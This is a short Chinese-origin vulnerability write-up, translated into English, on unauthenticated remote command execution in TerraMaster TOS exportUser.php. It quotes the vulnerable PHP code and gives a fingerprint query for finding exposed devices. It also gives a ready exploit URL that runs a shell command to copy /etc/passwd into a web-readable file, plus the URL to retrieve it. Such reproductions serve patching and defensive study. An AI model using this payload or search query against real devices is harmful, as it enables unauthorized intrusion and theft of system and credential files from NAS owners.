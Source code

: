 # TerraMaster TOS exportUser.php Remote command execution

## Vulnerability Description

Remote command execution vulnerability exists in TerraMaster TOS exportUser.php file

## Vulnerability Impact

<span style="background-color:rgb(18, 160, 255); padding: 2px 4px; border-radius: 3px; color: white;">TerraMaster TOS < 4.1.24</span>

## Network surveying and mapping

<span style="background-color:rgb(18, 160, 255); padding: 2px 4px; border-radius: 3px; color: white;">"TerraMaster" && header="TOS"</span>

## Vulnerability reappears

File with vulnerability `*exportUser.php`*

```php
<?php
    include_once "./app.php"; // [1] autoload classes
    class CSV_Writer{
        ...
    }
    $type = $_GET['type'];
    $csv = new CSV_Writer();
    if($type == 1){
        $P = new person();
        $data = $P->export_user($_GET['data']);
        $csv->exportUser($data);
    } else if($type == 2) {
        $P = new person();
        $data = $P->export_userGroup($_GET['data']);
        $csv->exportUsergroup($data);
    } else { // [2] type value is bigger than 2
        //xlsx通用下载
        $type = 0;
        $class = $_GET['cla'];
        $fun = $_GET['func'];
        $opt = $_GET['opt'];
        $E = new $class();
        $data = $E->$fun($opt); // [3] vulnerable code call
        $csv->exportExcel( $data['title'], $data['data'], $data['name'], $data['save'], $data['down']);
    }
?>
```



During code inspection of other files, it was also found that there is a way to exploit this problem using pre-existing classes in TOS software.
The PHP class located in `include/class/application.class.php` is the best candidate for executing commands on devices running TOS software.

Since *exportUser.php* does not have an authentication control, it is possible for an unauthenticated attacker to implement code execution by providing the following value as an HTTP GET parameter.

```plain
https://xxx.xxx.xxx.xxx/include/exportUser.php?type=3&cla=application&func=_exec&opt=(cat%20/etc/passwd)>test.txt
```

Return to 200 and visit again

```plain
https://xxx.xxx.xxx.xxx/include/test.txt
```

![img](https://raw.githubusercontent.com/PeiQi0/PeiQi-WIKI-Book/refs/heads/main/docs/.vuepress/../.vuepress/public/img/tm-9.png)